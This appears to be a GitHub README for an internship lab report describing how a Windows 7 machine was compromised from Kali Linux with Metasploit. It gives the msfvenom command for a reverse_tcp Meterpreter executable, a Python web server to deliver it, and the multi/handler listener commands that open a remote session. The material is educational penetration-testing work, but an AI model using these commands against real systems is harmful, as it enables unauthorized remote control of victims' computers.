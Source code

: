 # ACMEGRADE Internship Final Assessment
## Hack into Windows Machine using Metasploit

This repository contains the final project assessment report from the **Acmegrade Internship, May 2024**. The project successfully demonstrated a controlled penetration test scenario to exploit a vulnerable Windows 7 machine using the *Metasploit Framework*.

## 🎯 Project Aim

The primary objective of this project was to gain remote access to a **Windows 7** machine (victim) from a **Kali Linux** machine (attacker) by leveraging the **Metasploit Framework** and a **Meterpreter** payload.

## 🛠️ Tools and Technologies Used

| Category | Tool/Technology | Role in Project |
| :--- | :--- | :--- |
| **Attacker OS** | Kali Linux | The penetration testing machine. |
| **Target OS** | Windows 7 | The victim machine that was compromised. |
| **Exploitation** | Metasploit Framework | Used to set up the listener (`multi/handler`) and manage the remote session. |
| **Payload Generation** | `msfvenom` | Used to generate the custom, malicious executable (`venom.exe`). |
| **Delivery Mechanism** | Python `http.server` | Used to quickly host and transfer the payload (`venom.exe`) to the target machine over port `8080`. |

## ⚙️ Execution Summary (Procedure)

### Step 1: Information Gathering

The IP addresses of both machines were identified:

* **Attacker IP (Kali Linux):** `35.35.35.4`
    * *Command:* `ifconfig eth0`
* **Victim IP (Windows 7):** `35.35.35.8`
    * *Command:* `ipconfig`

### Step 2: Weaponization

The **`msfvenom`** command was used to generate the payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 LHOST=35.35.35.4 LPORT=3535 -f exe -o venom.exe
```

* **Payload:** `windows/meterpreter/reverse_tcp`. This payload creates a connection from the victim back to the attacker.

* **LHOST:** Attacker IP address (`35.35.35.4`).

* **LPORT:** Port for the reverse connection (`3535`).

* **Output:** `venom.exe`


### Step 3: Delivery

1. A Python web server was hosted on the attacker (Kali Linux) machine:

```bash
python -m http.server 8080
```

2. The target (Windows 7) accessed `http://35.35.35.4:8080` and downloaded the `venom.exe` payload.


### Step 4: Exploitation

1. A listener was started on the Kali machine using `msfconsole`:

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 35.35.35.4
set LPORT 3535
run
```

2. The `venom.exe` payload was executed on the Windows 7 target machine.

3. Upon execution, a **Meterpreter session** was successfully opened on the Kali machine.


The target was successfully compromised , allowing post-exploitation commands like `sysinfo` and `ls` to be run on the victim system.
